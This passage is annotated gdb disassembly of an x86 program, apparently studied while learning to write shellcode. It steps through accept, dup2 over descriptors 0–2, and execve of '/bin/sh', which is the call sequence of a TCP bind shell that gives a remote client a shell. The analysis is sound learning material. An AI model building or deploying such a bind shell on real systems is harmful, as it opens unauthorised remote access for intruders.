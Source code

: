 ```nasm
   ; 0xbffff020:	0x00000003	0x00000001
   ;
   ; parameters:
   ; 0x00000003 = sockfd
   ; 0x00000001 = backlog
   ; ---------------------------------------------------------------------------------

   ; accept --------------------------------------------------------------------------
   0x0040077d <+144>:	add    esp,0x10
   0x00400780 <+147>:	sub    esp,0x4
   0x00400783 <+150>:	push   0x0
   0x00400785 <+152>:	push   0x0
   0x00400787 <+154>:	push   DWORD PTR [ebp-0x24]
   0x0040078a <+157>:	call   0x400520 <accept@plt>
   ; gdb$ x/3w $esp
   ; 0xbffff020:	0x00000003	0x00000000	0x00000000
   ;
   ; parameters:
   ; 0x00000003 = sockfd
   ; 0x00000000 = sockaddr (NULL) ; dont need client struct
   ; 0x00000000 = addrlen (NULL)  ; dont need client struct
   ; ---------------------------------------------------------------------------------

   ; dup2 ----------------------------------------------------------------------------
   0x0040078f <+162>:	add    esp,0x10
   0x00400792 <+165>:	mov    DWORD PTR [ebp-0x20],eax
   0x00400795 <+168>:	mov    DWORD PTR [ebp-0x2c],0x0
   0x0040079c <+175>:	jmp    0x4007b3 <main+198>
   0x0040079e <+177>:	sub    esp,0x8
   0x004007a1 <+180>:	push   DWORD PTR [ebp-0x2c]
   0x004007a4 <+183>:	push   DWORD PTR [ebp-0x20]
   0x004007a7 <+186>:	call   0x400500 <dup2@plt>
   ; gdb$ x/2w $esp
   ; 0xbffff020:	0x00000004	0x00000000
   ; gdb$ x/2w $esp
   ; 0xbffff020:	0x00000004	0x00000001
   ; gdb$ x/2w $esp
   ; 0xbffff020:	0x00000004	0x00000002

   ; parameters:
   ; 0x00000004 = oldfd
   ; 0x0000000[0-2] = newfd
   ; ---------------------------------------------------------------------------------

   ; excecve -------------------------------------------------------------------------
   0x004007ac <+191>:	add    esp,0x10
   0x004007af <+194>:	add    DWORD PTR [ebp-0x2c],0x1
   0x004007b3 <+198>:	cmp    DWORD PTR [ebp-0x2c],0x2
   0x004007b7 <+202>:	jle    0x40079e <main+177>
   0x004007b9 <+204>:	sub    esp,0x4
   0x004007bc <+207>:	push   0x0
   0x004007be <+209>:	push   0x0
   0x004007c0 <+211>:	lea    eax,[ebx-0x175c]
   0x004007c6 <+217>:	push   eax
   0x004007c7 <+218>:	call   0x400540 <execve@plt>
   ; gdb$ x/a $esp
   ; 0xbffff020:	0x4008a4 => "/bin/sh"
   ; gdb$ x/2c $esp+4
   ; 0xbffff024:	0x0 0x0
   ;
   ; parameters:
   ; 0x4008a4 = pointer to filename on stack
   ; 0x0 = argv[]
```